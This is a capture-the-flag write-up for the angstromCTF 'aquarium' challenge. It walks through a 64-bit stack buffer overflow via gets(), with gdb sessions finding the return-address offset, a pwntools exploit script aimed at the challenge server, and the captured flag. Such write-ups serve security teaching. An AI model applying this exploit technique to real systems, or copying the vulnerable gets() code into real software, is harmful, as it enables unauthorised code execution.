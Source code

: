 ## angstromCTF: aquarium
##### *tl;dr: buffer overflow to change control flow*
#### The pwn challenges for this ctf are 64-bit, which I've never worked with and understood before, thus lead me to learning some new stuff to be used in the upcoming ctfs. It's important to note that we are given the source codes for the binaries, which makes it somewhat easier to understand the control flow and spot the vulnerability. 
##### aquarium.c
```c
#include <stdlib.h>
#include <stdio.h>
#include <string.h>

void flag() {
	system("/bin/cat flag.txt");
}

struct fish_tank {
	char name[50];
	int fish;
	int fish_size;
	int water;
	int width;
	int length;
	int height;
};


struct fish_tank create_aquarium() {
	struct fish_tank tank;

	printf("Enter the number of fish in your fish tank: ");
	scanf("%d", &tank.fish);
	getchar();

	printf("Enter the size of the fish in your fish tank: ");
	scanf("%d", &tank.fish_size);
	getchar();

	printf("Enter the amount of water in your fish tank: ");
	scanf("%d", &tank.water);
	getchar();

	printf("Enter the width of your fish tank: ");
	scanf("%d", &tank.width);
	getchar();

	printf("Enter the length of your fish tank: ");
	scanf("%d", &tank.length);
	getchar();

	printf("Enter the height of your fish tank: ");
	scanf("%d", &tank.height);
	getchar();

	printf("Enter the name of your fish tank: ");
	char name[50];
	gets(name);

	strcpy(name, tank.name);
	return tank;
}

int main() {
	gid_t gid = getegid();
	setresgid(gid, gid, gid);

	struct fish_tank tank;

	tank = create_aquarium();

	if (tank.fish_size * tank.fish + tank.water > tank.width * tank.height * tank.length) {
		printf("Your fish tank has overflowed!\n");
		return 1;
	}

	printf("Nice fish tank you have there.\n");

	return 0;
}
```
#### Analyzing the source code, we see that we are given prompts for various variables for the struct. We also spot the vulnerable gets call on the last prompt, which we can use to perform a buffer overflow. Fire up gdb and do tests on the binary, we can input anything we want on the first few prompts, but we do want to perform the overflow on the prompt for the name.:
```
$ gdb ./aquarium
  gdb-peda$ pattern create 200
  'AAA%AAsAABAA$AAnAACAA-AA(AADAA;AA)AAEAAaAA0AAFAAbAA1AAGAAcAA2AAHAAdAA3AAIAAeAA4AAJAAfAA5AAKAAgAA6AALAAhAA7AAMAAiAA8AANAAjAA9AAOAAkAAPAAlAAQAAmAARAAoAASAApAATAAqAAUAArAAVAAtAAWAAuAAXAAvAAYAAwAAZAAxAAyA'
  
  gdb-peda$ r
  Enter the number of fish in your fish tank: 1000
  Enter the size of the fish in your fish tank: 1000
  Enter the amount of water in your fish tank: 1000
  Enter the width of your fish tank: 1000
  Enter the length of your fish tank: 1000
  Enter the height of your fish tank: 1000
  Enter the name of your fish tank: AAA%AAsAABAA$AAnAACAA-AA(AADAA;AA)AAEAAaAA0AAFAAbAA1AAGAAcAA2AAHAAdAA3AAIAAeAA4AAJAAfAA5AAKAAgAA6AALAAhAA7AAMAAiAA8AANAAjAA9AAOAAkAAPAAlAAQAAmAARAAoAASAApAATAAqAAUAArAAVAAtAAWAAuAAXAAvAAYAAwAAZAAxAAyA
  
  [...]
  RIP: 0x40138e (<create_aquarium+469>:	ret)
  => 0x40138e <create_aquarium+469>:	ret  
  Stopped reason: SIGSEGV
  0x000000000040138e in create_aquarium ()
```
#### Trying to input 200 bytes of random characters, we can be able to trigger the segfault error, but it seems that we don't have control of our rip register. But I have learned that we do have control over it, we just need to find at which offset we can do it. We do this by simply checking the content of the `rsp` register to get the offset then we proceed to verify our control.
```
gdb-peda$ x/wx $rsp
0x7fffffffdd78:	0x41417041

gdb-peda$ pattern offset 0x41417041
1094807617 found at offset: 152

gdb-peda$ r
  [...]
  Enter the name of your fish tank: AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAABBBBBB
  Stopped reason: SIGSEGV
  0x0000424242424242 in ?? ()
```
#### And yea, there we have it we can control program flow with offset 152. But where do we want to jump to now? We've seen a flag function in the code, and that's where we want to jump to - thus we need it's address:
```
gdb-peda$ p flag
$1 = {<text variable, no debug info>} 0x4011a6 <flag>
```
#### Then what we need for our exploit is complete, we now proceed to create our exploit script and run it against the server to get our flag.
##### exploit.py
```python
from pwn import *

#: Connect to challenge server
HOST = 'shell.actf.co'
PORT = 19305
p = remote(HOST,PORT)
# p = process('./aquarium')
# print(p.recvline())

#: Exploit code
offset = 'A' * 152
flag_addr = p32(0x4011a6)
exploit = offset + flag_addr
print(repr(exploit))

#: Send payload
p.sendline('1000')
p.sendline('1000')
p.sendline('1000')
p.sendline('1000')
p.sendline('1000')
p.sendline('1000')
p.sendline(exploit)
print(p.recvline())
```
#### We got our flag! 
`actf{overflowed_more_than_just_a_fish_tank}`
